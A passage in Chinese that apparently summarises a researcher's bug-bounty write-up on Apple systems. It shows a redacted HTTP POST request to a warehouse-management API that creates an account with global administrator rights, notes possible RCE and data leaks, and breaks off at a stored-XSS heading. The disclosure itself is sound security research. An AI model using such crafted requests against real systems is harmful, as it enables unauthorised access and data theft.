 但過了一段時間我們意識到，為了真正調用 API
- 必須送一個 JSON data 的 POST request
```json
{
  "inputs": {
    "param": "value"
  }
}
```

上面的格式（事後）看起來非常簡單易懂
- 但是在攻擊的時候，我們完全不知道格式
- 我甚至嘗試向提供軟體的公司發 email，詢問應該這些 API 的格式，但他們不會回電子郵件，因為我沒有訂閱該服務。
- 我花了將近 6 個小時試圖弄清楚如何形成上述 API 格式
- 但在我們弄清楚之後，它非常順利
  - `create employee` 功能需要依賴於 UUID 的各種參數，但我們能夠通過其他 `Operations` 檢索這些參數，並在我們進行時填寫它們。

又過了大約兩個小時，我們終於形成如下的 API 請求：

```
POST /Apriso/HttpServices/api/platform/1/Operations/redacted HTTP/1.1
Host: colormasters.apple.com
Authorization: Bearer redacted
Connection: close
Content-Type: application/json
Content-Length: 380
{
  "inputs": {
    "Name": "Samuel Curry",
    "EmployeeNo": "redacted",
    "LoginName": "yourloginname123",
    "Password": "yourpassword123",
    "LanguageID": "redacted",
    "AddressID": "redacted",
    "ContactID": "redacted",
    "DefaultFacility": "redacted",
    "Department": "",
    "DefaultMenuItemID": "redacted",
    "RoleName": "redacted",
    "WorkCenter": ""
  }
}
```

發送此 API 後
- 現在可以作為 app 的 global administrator 進行身份驗證
- 使我們能夠完全使用 warehouse management software，並可能來 RCE

![](https://secureservercdn.net/198.71.233.25/623.f31.myftpupload.com/wp-content/uploads/2020/10/memrz-1024x469.png)  

有數百種不同的功能會導致大量 data leak，有些關鍵的 app 能夠破壞用 inventory and warehouse management

## Wormable Stored Cross-Site Scripting 弱點，允許 attacher 修改 email 來偷 iCloud 的資料
